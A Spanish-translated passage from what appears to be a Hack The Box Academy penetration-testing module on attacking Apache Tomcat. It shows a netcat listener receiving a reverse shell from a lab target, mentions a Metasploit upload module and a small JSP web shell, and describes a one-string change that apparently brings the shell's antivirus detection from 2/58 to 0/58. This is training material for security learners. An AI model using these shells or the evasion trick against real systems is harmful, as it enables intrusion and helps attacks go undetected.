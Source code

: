 Inicie un oyente de NetCat y haga clic en`/backup`para ejecutar el shell.

Atacando a Tomcat

```
xnoxos@htb[/htb]$ nc -lnvp 4443listening on [any] 4443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.58] 45224

id

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)

```

El[multi/http/tomcat_mgr_upload](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)El módulo MetaSploit se puede usar para automatizar el proceso que se muestra arriba, pero dejaremos esto como un ejercicio para el lector.

[Este](https://github.com/SecurityRiskAdvisors/cmd.jsp)JSP Web Shell es muy liviano (menos de 1 kb) y utiliza un[Marcador](https://www.freecodecamp.org/news/what-are-bookmarklets/)o Marcador de navegador para ejecutar el JavaScript necesario para la funcionalidad del shell web y la interfaz de usuario. Sin él, navegando a un cargado`cmd.jsp`No dejaría nada. Esta es una excelente opción para minimizar nuestra huella y posiblemente evadir las detecciones para los shsh estándar de la web JSP (aunque el código JSP puede necesitar modificarse un poco).

El shell web, tal como es, solo es detectado por 2/58 proveedores antivirus.

![](https://academy.hackthebox.com/storage/modules/113/vt2.png)

Un cambio simple como cambiar:

Código:Java

```java
FileOutputStream(f);stream.write(m);o="Uploaded:

```

a:

Código:Java

```java
FileOutputStream(f);stream.write(m);o="uPlOaDeD:

```

resulta en 0/58 proveedores de seguridad que marcan el`cmd.jsp`Archivo como malicioso al momento de escribir.

---

# **Una nota rápida en los shells web**

Cuando cargamos shells web (especialmente en externals), queremos evitar el acceso no autorizado. Debemos tomar ciertas medidas, como un nombre de archivo aleatorizado (es decir, hash MD5), limitar el acceso a nuestra dirección IP de origen e incluso protegerlo con contraseña. No queremos que un atacante se encuentre con nuestro shell web y lo aproveche para que gane su propio punto de apoyo.

---
